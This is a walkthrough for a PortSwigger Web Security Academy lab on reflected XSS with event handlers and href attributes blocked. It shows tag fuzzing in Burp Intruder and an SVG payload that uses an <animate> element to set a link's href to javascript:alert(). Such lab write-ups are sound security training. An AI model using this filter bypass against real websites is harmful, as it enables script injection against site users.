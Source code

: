 # XSS LAB 27 - Reflected XSS with event handlers and href attributes blocked

## Manual Solution


### 1. Before you start:
- Some useful articles:
    - [MDN Web Docs: Element.animate](https://developer.mozilla.org/en-US/docs/Web/API/Element/animate)
    - [W3Schools: SVG Animation](https://www.w3schools.com/graphics/svg_animation.asp)
    - [MDN Web Docs: SVG `<text>` Element](https://developer.mozilla.org/en-US/docs/Web/SVG/Reference/Element/text)
    - [W3Schools: Introduction to SVG](https://www.w3schools.com/graphics/svg_intro.asp)
    
### 2. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 3. Determining unblocked tags
- Open Burp Suite.
- Perform an regular search on the target website and capture the search request in Burp Suite. Then send the request to `Intruder`.
- Modify the search parameter like this `/?search=<§§`
- Visit the following URL and copy the list of tags: [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).
- Add the following payload to the payload list in Burp Suite:
![payload](./images/Payload.PNG)
- Paste the tags you copied into the payload list. Then click `Start attack`.
- The tags that return a 200 OK status code are considered unblocked.
![tags](./images/Tags.PNG)

### 4. Solving the lab.
- In this lab We can use the `svg` tag. Perform a search with the following payload `<svg> </svg>` and notice that the tag is unblocked.
- Next, try creating an `<a>` tag inside the `<svg>` tag. Use the following payload: `<svg><a>Click Me</a></svg>`. If you inspect the page, you will see the following HTML in the DOM 
```html 
<svg> <a>click me </a> </svg>
``` 
- However the Click Me text is not visible on the page. This is because in SVG text content must be wrapped inside a `<text>` element.
- Try the following payload: `<svg> <a> <text x=30 y=30 > Click Me </text> </a> </svg>` The HTML DOM becomes: 
```html 
<svg> 
    <a> 
        <text x="50" y="50"> click me </text> 
    </a> 
</svg>
```
- Now we can use the `<animate>` tag to modify the href attribute of the `<a>` tag.
- Perform a search with the following payload: 
```html
<svg> 
    <a> 
        <animate attributeName=href values=javascript:alert() /> 
        <text x=30 y=30 > Click Me </text> 
    </a>
</svg>
```
- We place the `<animate>` tag inside the `<a>` tag because the `<animate>` element targets its parent tag.
If we don't place it inside the `<a>` tag we would need to use the `xlink:href` attribute but in this lab it is not allowed.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_27.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```